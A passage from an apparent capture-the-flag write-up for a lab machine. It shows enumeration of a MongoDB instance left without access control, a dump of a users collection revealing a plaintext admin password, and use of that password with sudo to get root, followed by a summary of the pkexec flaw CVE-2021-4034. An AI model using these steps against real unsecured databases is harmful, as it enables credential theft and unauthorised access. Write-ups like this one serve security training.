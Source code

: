 ```bash
MongoDB server version: 3.6.8
Server has startup warnings: 
2022-06-03T14:20:33.009+0000 I CONTROL  [initandlisten] 
2022-06-03T14:20:33.009+0000 I CONTROL  [initandlisten] ** WARNING: Access control is not enabled for the database.
2022-06-03T14:20:33.009+0000 I CONTROL  [initandlisten] **          Read and write access to data and configuration is unrestricted.
2022-06-03T14:20:33.009+0000 I CONTROL  [initandlisten] 
>
```
From here, we can try to enumerate users or obtain valuable information:
```bash
> show dbs
admin   0.000GB
blog    0.000GB
config  0.000GB
local   0.000GB
> use admin
switched to db admin
> show users
> show collections
system.version
> use blog
switched to db blog
> show users
> show collections
articles
users
```
We found a `users` table, let's see its rows:
```bash
> db.users.find()
{ "_id" : ObjectId("61b7380ae5814df6030d2373"), "createdAt" : ISODate("2021-12-13T12:09:46.009Z"), "username" : "admin", "password" : "IppsecSaysPleaseSubscribe", "__v" : 0 }
```
From where we can list the credentials: `admin:IppsecSaysPleaseSubscribe`. With these credentials we can try to use the sudoer group to become root:
```bash
admin@nodeblog:~/CVE-2021-4034$ sudo su
[sudo] password for admin: 
root@nodeblog:/home/admin/CVE-2021-4034# whoami
root
```
We obtained the root user.

## CVE
### [CVE-2021-4034](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-4034)
A local privilege escalation vulnerability was found on polkit's pkexec utility. The pkexec application is a setuid tool designed to allow unprivileged users to run commands as privileged users according predefined policies. The current version of pkexec doesn't handle the calling parameters count correctly and ends trying to execute environment variables as commands. An attacker can leverage this by crafting environment variables in such a way it'll induce pkexec to execute arbitrary code. When successfully executed the attack can cause a local privilege escalation given unprivileged users administrative rights on the target machine. 
